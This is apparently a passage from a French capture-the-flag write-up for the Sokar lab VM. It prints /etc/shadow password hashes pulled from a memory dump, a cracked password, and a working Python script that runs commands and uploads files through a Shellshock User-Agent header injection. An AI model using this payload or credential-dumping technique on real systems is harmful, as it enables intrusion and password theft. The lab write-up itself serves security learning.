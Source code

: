 Petite aparté pour vous indiquer que j'ai essayé d'utiliser *Volatility* pour analyser le dump ram en suivant la procédure de compilation basée sur *dwarfdump* qui est quasi incompilable et qui nécessite de disposer des sources / entêtes du kernel et tout le tralala....  

Le masochisme à ses limites... PLUS JAMAIS ! JAMAIS ! *\*rire maniaque avec les orbites vides\**  

Du coup j'ai plutôt choisi de provoquer le chargement en mémoire du */etc/shadow* en appelant sudo de cette façon avant de décharger / recharger le module *LiME* :  

```plain
echo test | sudo -S -u apophis id
```

Et cette fois la pêche est bonne :  

```plain
root:$6$cWQYjirZ$rADNjUFSiHmYp.UVdt4WYlmALhMXdkg9//9yuodQ2TFfiEWlAO0J6PRKesEfvu.3dfDb.7gTGgl/jesvFWs7l0:16434:0:99999:7:::
bynarr:$6$UVZfMym7$9FFtl9Ky3ABFGErQlpQsKNOmAycJn4MlSRVHsSgVupDstQOifqqu3LvGwf3wmBvmfvh0IslwMo4/mhZ3qnVrM/:16434:0:99999:7:::
apophis:$6$0HQCZwUJ$rYYSk9SeqtbKv3aEe3kz/RQdpcka8K.2NGpPveVrE5qpkgSLTtE.Hvg0egWYcaeTYau11ahsRAWRDdT8jPltH.:16434:0:99999:7:::
```

Le mot de passe d'apophis (*overdrive*) se casse facilement avec la wordlist de RockYou.  

Pour m'aider dans mes aventures Sokariennes j'ai écrit le programme suivant permettant d'uploader un fichier via Shellshock :  

```python
import requests
import sys
from base64 import b64encode as b64

fd = open(sys.argv[1])

def do_cmd(cmd):
    empty_func = "() { :;}; echo; echo; PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin "
    hdrs = {"user-agent": empty_func + cmd + ";"}
    r = requests.get("http://192.168.1.63:591/cgi-bin/cat", headers=hdrs)

do_cmd("rm /tmp/temp_data.txt")

while True:
    buff = fd.read(57)
    if not buff:
        break
    data = b64(buff)
    cmd = "echo {0} >> {1}".format(data, "/tmp/temp_data.txt")
    do_cmd(cmd)

do_cmd("base64 -d /tmp/temp_data.txt > /tmp/out")
fd.close()
```
